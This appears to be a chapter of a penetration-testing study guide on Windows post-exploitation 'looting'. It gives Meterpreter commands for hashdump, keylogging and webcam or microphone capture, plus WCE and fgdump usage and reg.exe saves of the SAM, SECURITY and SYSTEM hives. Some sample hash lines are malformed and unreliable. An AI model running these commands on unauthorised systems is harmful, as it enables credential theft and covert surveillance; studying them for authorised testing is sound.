 # Loot


## Meterpreter

If you have a meterpreter shell you are able to do a lot of thing with very little effort.
If you do not have a meterpreter-shell you can always create a exploit with msfvenom. An elf or exe or other format to upgrade your shell.

Show help of all commands:
```
-h
```

**Dump windows hashes for further analysis**

```
hashdump
```

Keylogger

```
keysscan_start
keyscan_dump
keyscan_stop
```

**Mic and webcam commands**

```
record_mic     Record audio from the default microphone for X seconds
webcam_chat    Start a video chat
webcam_list    List webcams
webcam_snap    Take a snapshot from the specified webcam
webcam_stream  Play a video stream from the specified webcam
```


## Dumping passwords and hashes on windows

This most likely requires administrative rights, that's why the chapter is found here and not in priv-esc. Once you have a hash you can move on to the Password Cracking-chapter where we discuss different techniques of cracking hashes.

Windows stores passwords in SAM - Security Account Manager. Passwords are stored differently depending on the operating system. Up until (and including) Windows 2003 stored the passwords in LAN Manager (LM) and NT LAN Manager (NTLM). LM is incredibly insecure. From windows vista and on the system does not use LM, only NTLM. So it is a bit more secure.

**LM and NTLM >= Windows 2003**

**NTLM > Windows vista**

### LM Hashes

LM hashes can be really easy to crack. The LM part in the example below is the first part.

```
Administrator:500:FA21A6D3CF(01B8BAAD3B435B51404EE:C294D192B82B6AA35C3DFCA81F1F59BC:::
```

Example of NT

```
Administrator:500:NO PASSWORD*********************:BE134K40129560B46534340292AF4E72:::
```

### fgdump.exe

We can use `fgdump.exe` (`locate fgdump.exe` on kali) to extract NTLM and LM Password hashes. Run it and there is a file called 127.0.0.1.pwndump where the hash is saved. Now you can try to brute force it. 


### Windows Credencial Editor (WCE)

WCE can steal NTLM passwords from memory in cleartext!
There are different versions of WCE, one for 32 bit systems and one for 64 bit. So make sure you have the right one.

You can run it like this
```
wce32.exe -w
```


### Loot registry without tools

This might be a better technique than using tools like wce and fgdump, since you don't have to upload any binaries.
Get the registry:

```
C:\> reg.exe save hklm\sam c:\windows\temp\sam.save
C:\> reg.exe save hklm\security c:\windows\temp\security.save
C:\> reg.exe save hklm\system c:\windows\temp\system.save
```

The hashes can be extracted using `secretdump.py` or `pwdump`

### Pwdump 7

http://www.tarasco.org/security/pwdump_7/

## VNC

VNC require a specific password to log in to. So it is not the same password as the user password. If you have a meterpreter shell you can run the post exploit module to get the VNC password.

```
background
use post/windows/gather/credentials/vnc
set session X
exploit
```

## Tcp-dump on winfows

You can use meterpreter to easily take a tcp-dump, like this:

```
# Meterpreter
run packetrecorder -li
run packetrecorder -i 1
```

### Search for interesting files

```
#Meterpreter
search -f *.txt
search -f *.zip
search -f *.doc
search -f *.xls
search -f config*
search -f *.rar
search -f *.docx
search -f *.sql

# Recursive search
dir /s
```



## References

This is a great post
https://www.securusglobal.com/community/2013/12/20/dumping-windows-credentials/